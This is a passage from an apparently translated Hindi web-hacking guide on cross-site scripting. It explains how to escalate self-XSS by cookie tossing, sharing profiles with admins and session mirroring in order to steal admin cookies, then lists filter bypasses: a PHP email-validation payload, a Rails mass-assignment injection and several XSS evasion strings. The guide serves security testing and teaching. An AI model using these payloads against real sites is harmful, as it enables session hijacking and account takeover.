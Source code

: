 यदि आप एक कुकी के अंदर पेलोड भेजकर XSS को ट्रिगर कर सकते हैं, तो यह आमतौर पर एक self-XSS है। हालाँकि, यदि आप **XSS के लिए कमजोर उपडोमेन** पाते हैं, तो आप इस XSS का दुरुपयोग करके पूरे डोमेन में एक कुकी इंजेक्ट कर सकते हैं, जिससे मुख्य डोमेन या अन्य उपडोमेनों (जो कुकी XSS के लिए कमजोर हैं) में कुकी XSS को ट्रिगर किया जा सके। इसके लिए आप कुकी टॉसिंग हमले का उपयोग कर सकते हैं:

{% content-ref url="../hacking-with-cookies/cookie-tossing.md" %}
[cookie-tossing.md](../hacking-with-cookies/cookie-tossing.md)
{% endcontent-ref %}

आप इस तकनीक का एक बड़ा दुरुपयोग [**इस ब्लॉग पोस्ट में**](https://nokline.github.io/bugbounty/2024/06/07/Zoom-ATO.html) पा सकते हैं।

### अपने सत्र को व्यवस्थापक को भेजना

शायद एक उपयोगकर्ता अपने प्रोफ़ाइल को व्यवस्थापक के साथ साझा कर सकता है और यदि self XSS उपयोगकर्ता के प्रोफ़ाइल के अंदर है और व्यवस्थापक इसे एक्सेस करता है, तो वह कमजोरियों को ट्रिगर करेगा।

### सत्र मिररिंग

यदि आप कुछ self XSS पाते हैं और वेब पृष्ठ में **व्यवस्थापकों के लिए सत्र मिररिंग** है, उदाहरण के लिए ग्राहकों को मदद मांगने की अनुमति देना और व्यवस्थापक आपकी मदद करने के लिए आपके सत्र में जो आप देख रहे हैं, उसे देखेगा लेकिन अपने सत्र से।

आप **व्यवस्थापक को आपके self XSS को ट्रिगर करने** और उसकी कुकीज़/सत्र चुराने के लिए मजबूर कर सकते हैं।

## अन्य बायपास

### सामान्यीकृत यूनिकोड

आप यह जांच सकते हैं कि **प्रतिबिंबित मान** सर्वर (या क्लाइंट साइड) में **यूनिकोड सामान्यीकृत** हो रहे हैं और इस कार्यक्षमता का दुरुपयोग करके सुरक्षा को बायपास कर सकते हैं। [**यहाँ एक उदाहरण खोजें**](../unicode-injection/#xss-cross-site-scripting).

### PHP FILTER\_VALIDATE\_EMAIL ध्वज बायपास
```javascript
"><svg/onload=confirm(1)>"@x.y
```
### Ruby-On-Rails bypass

**RoR मास असाइनमेंट** के कारण HTML में उद्धरण डाले जाते हैं और फिर उद्धरण प्रतिबंध को बायपास किया जाता है और अतिरिक्त फ़ील्ड (onfocus) टैग के अंदर जोड़े जा सकते हैं।\
फॉर्म उदाहरण ([इस रिपोर्ट से](https://hackerone.com/reports/709336)), यदि आप पेलोड भेजते हैं:
```
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```
जोड़ी "Key","Value" इस तरह से वापस दिखाई देगी:
```
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```
फिर, onfocus विशेषता डाली जाएगी और XSS होता है।

### विशेष संयोजन
```markup
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg////////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
```